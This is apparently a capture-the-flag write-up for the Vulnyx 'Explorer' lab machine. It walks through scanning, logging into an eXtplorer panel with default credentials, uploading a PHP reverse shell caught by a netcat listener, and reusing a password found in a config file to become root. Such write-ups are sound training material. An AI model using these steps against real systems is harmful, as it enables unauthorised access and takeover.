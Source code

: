 # 🖥️ Writeup - Explorer 

**Platform:** Vulnyx  
**Operating System:** Linux  

# INSTALLATION

We download the `zip` containing the `.ova` of the Explorer machine, extract it, and import it into VirtualBox.

We configure the network interface of the Explorer machine and run it alongside the attacker machine.

# HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to Explorer, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```
Info:
```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:1c:29:88      1      60  PCS Systemtechnik GmbH      
 10.0.4.22       08:00:27:a0:a2:05      1      60  PCS Systemtechnik GmbH
 ```

 We identify with high confidence that the victim’s IP is `10.0.4.22`.

 # PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.22
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 10.0.4.22
```
Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 14:42 CEST
Nmap scan report for 10.0.4.22
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.65 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/extplorer
|_http-server-header: Apache/2.4.65 (Debian)
MAC Address: 08:00:27:A0:A2:05 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

Ports `22` and `80` are open.

We access the web service over `HTTP`, the server is running but there is no content yet.

The scan reveals a `robots.txt` file, and it contains a Disallow entry for `/extplorer`.

![alt text](../images/robots.png)

Encontramos una disallowed entry, un directorio llamado /extplorer.

We navigate to `/extplorer` and encounter a `login` page.

![alt text](../images/loginex.png)

We try common/default credentials such as `admin` : `admin`.

The default credentials work, so we log in to an admin panel that appears to be a web file manager supporting uploads and downloads.

We upload a `PHP` reverse shell (PentestMonkey’s `php-reverse-shell`).

![alt text](../images/revvshell.png)

Before any further action, we start a `listener` on our attacker machine.

```bash
sudo nc -nlvp 4444
```

We now execute the uploaded file at `http://10.0.4.22/shell.php` and obtain a `reverse shell` as user `www-data`.

Info:
```
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.22] 60142
Linux explorer 6.1.0-39-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.148-1 (2025-08-26) x86_64 GNU/Linux
 14:53:20 up 12 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

We have obtained a `reverse shell` as the user `www-data`!

In `/home` we find the `user flag`.

```
3f2580ab16ac82c9e0adaf0dad3a900d
```

# TTY

Before attempting privilege escalation, we upgrade the `TTY` for a more interactive shell:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# PRIVILEGE ESCALATION

We check for `sudo` privileges, `SUID` binaries, and Linux `capabilities`.

However, no obvious privilege escalation vectors are found.

Under `/var/www/html/extplorer/config` we find `conf.php`:

```
$GLOBALS['DB_HOST'] = 'localhost';
$GLOBALS['DB_NAME'] = 'webdav';
$GLOBALS['DB_USER'] = 'root';
$GLOBALS['DB_PASSWORD'] = 'AccessGranted#1';
$GLOBALS['DB_TYPE'] = 'mysql'; // Name of the Database Server Type (see http://en.php.net/manual/en/pdo.drivers.php for more)
```

Reading it reveals `MySQL` credentials `root` : `AccessGranted#1`, but the `MySQL` service appears to be down or inaccessible.

We try the same password on the system `root` account.

```bash
su root
```

Info:
```
root@explorer:/var/www/html/extplorer/config# whoami
root
root@explorer:/var/www/html/extplorer/config#
```

It works, and we obtain a `root` shell!

In `/root` we find the `root flag`:

```
9a045d36c5a28f01784bdcfb326accfe
```
